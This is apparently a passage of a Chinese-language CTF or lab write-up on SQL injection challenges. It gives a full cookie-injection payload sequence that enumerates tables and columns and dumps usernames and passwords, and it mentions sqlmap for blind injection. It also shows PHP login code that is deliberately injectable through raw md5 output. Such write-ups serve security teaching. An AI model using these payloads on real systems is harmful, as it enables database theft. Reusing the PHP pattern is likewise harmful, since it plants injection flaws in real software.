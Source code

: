# 7.盲注
sqlmap可以跑出来，网络连接不太好容易断。
# 8.cookie注入
在cookie后面加上了一个id=\,报错
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=\
```
得到字段长度
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=2 order by 4
```

得到显示位
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,3
```
得到表名
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())
```
得到字段名
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='sae_manager_sqli8')
```
脱裤
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select id,username,password from sae_manager_sqli8
```

# 9.哈希后的密码是不能产生注入的

```bash

PLEASE LOGINT!<noscript><?php
include "config.php";
if(isset($_GET['userid']) && isset($_GET['pwd'])){
   $strsql="select * from `user` where userid=".intval($_GET['userid'])." and password='".md5($_GET['pwd'], true) ."'";
    
    $conn=mysql_connect($dbhost,$username,$pwd);
    mysql_select_db($db,$conn);
    $result=mysql_query($strsql);
    print_r(mysql_error());
    $row=mysql_fetch_array($result);
    mysql_close($conn);
    echo "<pre>";
    print_r($row);
    
    echo "</pre>";
    if($row!=null){
        echo "Flag: ".$flag;
    }
    
}
else{
	echo "PLEASE LOGINT!";
}
echo "<noscript>";
echo file_get_contents(__FILE__);
```